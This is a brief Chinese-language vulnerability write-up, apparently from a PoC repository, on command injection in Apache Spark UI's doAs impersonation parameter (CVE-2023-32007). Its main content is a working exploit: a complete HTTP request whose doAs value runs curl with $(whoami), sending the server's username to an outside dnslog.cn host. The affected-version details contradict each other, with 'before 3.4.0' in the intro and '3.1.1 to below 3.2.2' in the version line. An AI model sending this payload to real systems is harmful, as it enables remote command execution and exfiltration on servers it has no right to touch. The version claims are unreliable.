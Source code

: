 # Apache Spark命令执行漏洞（CVE-2023-32007）

## 介绍
Apache Spark是美国阿帕奇（Apache）基金会的一款支持非循环数据流和内存计算的大规模数据处理引擎。

Apache Spark 3.4.0之前版本存在命令注入漏洞，该漏洞源于如果ACL启用后，HttpSecurityFilter中的代码路径可以允许通过提供任意用户名来执行模拟，这将导致任意shell命令执行。

## 漏洞版本
3.1.1 <= Apache Spark < 3.2.2

## 利用条件
Apache Spark UI 启用 ACL ，且低权限

## 漏洞poc
```
GET /jobs/?doAs=`curl+$(whoami)hw9y0l.dnslog.cn` HTTP/1.1
Host: 10.211.55.7:4040
Connection: keep-alive
Cache-Control: max-age=0
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0  Chrome/116.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

